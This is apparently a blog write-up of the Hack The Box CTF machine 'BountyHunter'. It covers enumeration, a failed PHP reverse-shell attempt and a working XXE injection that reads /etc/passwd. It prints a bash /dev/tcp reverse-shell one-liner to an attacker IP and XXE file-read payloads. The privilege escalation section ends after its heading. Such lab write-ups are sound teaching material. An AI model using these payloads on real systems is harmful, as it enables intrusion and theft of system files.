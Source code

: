 ```yaml
---
title: "BountyHunter"
author: "Me"
date: "October 20, 2021"
output: html_document
---
```


# BountyHunter

 <div id="boxinfo">
 <div id="textbox">
 <p class="alignleft">**Difficulty**: easy (?/10)</p>
 <p class="aligncenter">**Type**: CTF</p>
 <p class="alignright">**OS**: Linux</p>
 </div>
 <div style="clear: both;"></div>
 </div> 

<div class="img_container">
![desc]({{https://jsom1.github.io/}}/_images/htb_bounty_desc.png){: height="415px" width = 625px"}
</div>

**Ports/services exploited:** ?\\
**Tools:** ?\\
**Techniques:** ?\\
**Keywords:** ? 


## 1. Services enumeration
{:style="color:DarkRed; font-size: 170%;"}

Let's enumerate the running services with *nmap*. We'll use the flags *-sV* to have a verbose output, *-O* to enable OS detection, and *-sC* to enable the most common scripts scan:

<div class="img_container">
![nmap]({{https://jsom1.github.io/}}/_images/htb_bounty_nmap.png)
</div>

Very straightforward start, only an http server running on port 80 and ssh on port 22. This latter appears to be OpenSSH 8.2p1, and I know from experience that it is not vulnerable. Let's focus on the web server.

## 2. Gaining a foothold
{:style="color:DarkRed; font-size: 170%;"}

As usual, the first thing to do is browse to the target's IP and look at the content:

<div class="img_container">
![web server]({{https://jsom1.github.io/}}/_images/htb_bounty_site.png)
</div>

We land on a cool looking site where we see a few potential useful information. For example, we see "can use burp": since this is a CTF, it might be a hint to use Burp to intercept traffic between our machine and the server.\\
There are also 3 tabs: *about* is just an anchor, but *Contact us* and *Portal* bring us to pages with forms where we can submit data. For example, this is the *Portal* page:

<div class="img_container">
![Portal]({{https://jsom1.github.io/}}/_images/htb_bounty_portal.png)
</div>

While looking around the website, we can lanch *dirb* to look for interesting directories. The result is the following:

<div class="img_container">
![dirb]({{https://jsom1.github.io/}}/_images/htb_bounty_dirb.png)
</div>

There are two accessible directories, *asseets* and *resources*. By looking at their content (by simply browsing to *10.10.11.100/resources*), we see a promising *README* file:

<div class="img_container">
![readme]({{https://jsom1.github.io/}}/_images/htb_bounty_readme.png)
</div>

What immediately stands out here is of course the fact that there is a *test* account on the portal that hasn't been disabled. Moreover, it seems we can connect without providing a password.\\
We also learn the existence of a *tracker submit* script and that this latter isn't connected to the database. Finally, developer group permissions have been fixed: that probably means we'll have to escalate our privileges once we have a foothold, but that's why we're here :).

Let's just try to interact with the portal. We cannot submit credentials (*test* with no password), but we can see what it does:

<div class="img_container">
![test portal]({{https://jsom1.github.io/}}/_images/htb_bounty_test.png)
</div>

We see the database isn't ready (probably because the input here is handled by the *tracket submit* script, which isn't connected to the database yet), but we also understand what it does: it simply adds bounty information in an underlying database.\\
Since there are no direct interactions with the DB, we can exclude the possibility of SQL injections for now and will have to find something else.

Still in */ressources*, there's a JavaScript script called *bountylog.js*:

<div class="img_container">
![url]({{https://jsom1.github.io/}}/_images/htb_bounty_url.png)
</div>

We first see a function called *returnSecret()* which takes data as an argument and then does a POST request to *10.10.11.100/tracker_diRbPr00f314.php*. Below this function, there is another one that crafts an xml message from the fields we can fill on *10.10.11.100/log_submit.php*, and uses the *returnSecret()* function (*btoa* converts from binary to ASCII*). This gives us a good understandding of the application. However, we would need to see the content of the *tracker_diRbPr00f314.php* script to get the full picture...

After playing a while with the reporting system (*/log_submit.php*), I saw that there is nothing displayed when we input "<" in any field... Every other input seems to work:

<div class="img_container">
![no output]({{https://jsom1.github.io/}}/_images/htb_bounty_nop.png)
</div>

However, a simple "<" returns no output. It looks like it's not properly sanitized... I thought about trying a simple one-liner PHP reverse shell as follows, but it didn't work:

<div class="img_container">
![php]({{https://jsom1.github.io/}}/_images/htb_bounty_php.png)
</div>

The complete command is the following:

````
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.21/4444 0>&1'");
`````

And in the case that would work, we set up a netcat listener on port 4444 as follows: *sudo nc -nlvp 4444*.
After submitting this, we can inspect the network tab and we see it was Base64 encoded. We can check on any decoding tool:

<div class="img_container">
![decode]({{https://jsom1.github.io/}}/_images/htb_bounty_decode.png)
</div>

However, we receive nothing on our listener. At this point, I had to ask for help... It turns out we should have known, based on the XML output wee see on the previous image, that it might be vulnerable to **XXE injection**. I don't know about that, so let's have a look on the internet (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md):\\
"*An XML External Entity attack is a type of attack against an application that parses XML input and allows XML entities. XML entities can be used to tell the XML parser to fetch specific content on the server.*"\\
In other words, it allows an attacker to interfere with an application's processing of XML data, making it possible to view files on the server or interact with any backend that the application itself can access.\\
Well, that sounds promising. There are 2 types of XML Entity:

- XML Internal Entity: If an entity is declared within a DTD (Document Type Definition) it is called as internal entity. Syntax: <!ENTITY entity_name "entity_value">
- XML External Entity: If an entity is declared outside a DTD it is called as external entity. Identified by SYSTEM.Syntax: <!ENTITY entity_name SYSTEM "entity_value">

The web page shows how to test for this vulnerability. First, we'll use Burp to intercept the request when we submit information on */log_submit.php*, send it to the repeater, and click send to forward the request to the web server:

<div class="img_container">
![Burp repeater]({{https://jsom1.github.io/}}/_images/htb_bounty_burp.png)
</div>

We see our request on the left being intercepted, the encoded data, and the server's response on the right after clicking on *Send*. We select the encoded data, which opens the inspector on the right. The *%* in the data indicates that it is url encoded: this is why we first decode that, and then we decode one more time with Base64 (we saw it was Base64 earlier). Finally, we see that our data are sent to the server in XML format. This is where it should ring a bell and makes us think about XML entities.\\

Let's see if it is vulnerable. The website gives the following PoC:

````
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
`````

This is a basic entity test: when the XML parser parses the external entities the result should contain "John" in firstName and "Doe" in lastName. Entities are defined inside the DOCTYPE element. It might help to set the Content-Type: application/xml in the request when sending XML payload to the server.

In our case, we see the XML format on the right side of Burp. We'll use this format with the given PoC, and use any Base64 online encoder to encode it:

<div class="img_container">
![Base64 encode]({{https://jsom1.github.io/}}/_images/htb_bounty_encode.png)
</div>

We copy the encoded XML request, and paste it in Burp under *data*. At this point, we still have to URL encode the payload: we select it, right click and select *Convert selection* > *URL* > *URL-encode keey characters*:

<div class="img_container">
![URL encode]({{https://jsom1.github.io/}}/_images/htb_bounty_burp2.png)
</div>

Finally, we click on *Send* and see if it worked:

<div class="img_container">
![Injection]({{https://jsom1.github.io/}}/_images/htb_bounty_burp3.png)
</div>

And it did! We used the doctype *replace* to replace a field in the request. Now that we know how it works, we can try to read files on the target using the *data* doctype. Still on the web page, the PoC to do that is the following:

````
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
`````

We will once again use the XML template we got on Burp and adapt it to read the password file:

<div class="img_container">
![payload]({{https://jsom1.github.io/}}/_images/htb_bounty_payload.png)
</div>

As before, we copy the Base64 encoded payload, paste it in Burp's repeater, URL encode it and send the request:

<div class="img_container">
![password]({{https://jsom1.github.io/}}/_images/htb_bounty_pw.png)
</div>

And the server returns the password file! 

## 3. Privilege escalation
{:style="color:DarkRed; font-size: 170%;"}


<ins>**My thoughts**</ins>


